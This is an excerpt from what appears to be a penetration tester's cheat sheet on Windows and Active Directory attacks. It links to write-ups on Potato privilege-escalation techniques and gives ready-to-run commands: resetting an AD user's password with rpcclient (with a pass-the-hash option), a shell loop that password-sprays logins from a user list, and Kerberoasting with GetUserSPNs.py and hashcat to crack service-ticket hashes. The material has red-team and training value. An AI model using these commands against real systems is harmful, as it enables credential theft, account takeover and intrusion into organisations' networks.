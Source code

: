 #### Juicy Potato
https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505

#### Hot Potato
https://pentestlab.blog/2017/04/13/hot-potato/

#### Sweet Potato
https://www.pentestpartners.com/security-blog/sweetpotato-service-to-system/


https://www.ctfnote.com/red-teaming/privilege-escalation/windows-privilege-escalation/token-impersonation-and-potato-attacks

#### God Potato
https://github.com/BeichenDream/GodPotato

### RPC Misc
##### AD user password modification using rpcclient  

```
user@host # rpcclient -U supportAccount //192.168.0.100
[...] authenticate using the supportAccount password which needs to be modified
rpcclient $> setuserinfo2 supportAccount 23 SuperNewPassword22
```

--> Note : If package passing-the-hash is installed on attacker machine, you can even do this with just a NTLM hash. (Flag : --pw-nt-hash)

##### RPC password spraying

```
while read x; do echo $x; rpcclient -U “DOMAIN/$x%PasswOrd123” -c “getusername;quit” 192.168.0.110; done < ./userlist.txt

Using bash script:
#/bin/bash
for u in 'cat dom_users.txt'
do echo -n "[*] user: $u" && rpcclient -U "$u%password" -c "getusername;quit" 10.10.10.192
done
```

### Kerberoasting
Service Principal Names (SPN's) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service).  

The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts.

```
GetUserSPNs.py -request -dc-ip 192.168.1.10 COMPANY.LOCAL/jdoe:PasswordJdoe123 -outputfile hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
```
